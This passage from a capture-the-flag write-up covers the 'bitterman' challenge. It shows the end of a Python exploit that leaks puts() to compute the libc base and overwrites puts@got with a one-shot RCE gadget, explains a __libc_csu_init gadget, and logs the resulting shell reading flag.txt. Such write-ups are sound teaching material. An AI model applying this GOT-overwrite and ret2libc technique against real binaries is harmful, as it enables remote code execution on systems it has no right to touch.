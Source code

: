 ```python
    print "[+] Leaked puts(): " + hex(struct.unpack('<Q', data)[0])
    
    libc_base = puts_addr - 0x70a30
    print "[+] libc base addr: " + hex(libc_base)
    system_addr = libc_base + 0x442AA # one shot rce, ty superkojiman!
    print "[+] sending one shot rce addr (" + hex(system_addr) + ")"
    
    # the rop chain will wait at read(), because that is blocking
    # send the address to overwrite puts@got
    s.send(q(system_addr))
    
    import telnetlib
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()
pwn()
```
The reason for setting up `rbp`:

```
  400839:   call   QWORD PTR [r12+rbx*8]
  40083d:   add    rbx,0x1
  400841:   cmp    rbx,rbp  ; if rbx != rbp, we jump back!
  400844:   jne    400830 
  400846:   add    rsp,0x8  ; we wanna go here!
  40084a:   pop    rbx
  40084b:   pop    rbp
  40084c:   pop    r12
  40084e:   pop    r13
  400850:   pop    r14
  400852:   pop    r15
  400854:   ret    
```

And the exploit in action:

```bash
[+] Leaked puts(): 0x7fb9d6487a30
[+] libc base addr: 0x7fb9d6417000
[+] sending one shot rce addr (0x7fb9d645b2aa)
id
uid=1001(challenge) gid=1001(challenge) groups=1001(challenge)
whoami
challenge
ls -alh
total 40K
drwxr-xr-x 2 root root 4.0K Aug 13 13:46 .
drwxr-xr-x 3 root root 4.0K Aug  5 21:43 ..
-rw-r--r-- 1 root root  220 Aug  5 19:55 .bash_logout
-rw-r--r-- 1 root root 3.7K Aug  5 19:55 .bashrc
-rw-r--r-- 1 root root  675 Aug  5 19:55 .profile
-rwxr-xr-x 1 root root  11K Aug 12 01:28 bitterman
-rw-r--r-- 1 root root   43 Aug 13 13:47 flag.txt
-rwxr-xr-x 1 root root   64 Aug 12 01:34 run.sh
cat flag.txt
CAMP15_a786be6aca70bfd19b6af86133991f80  -
```
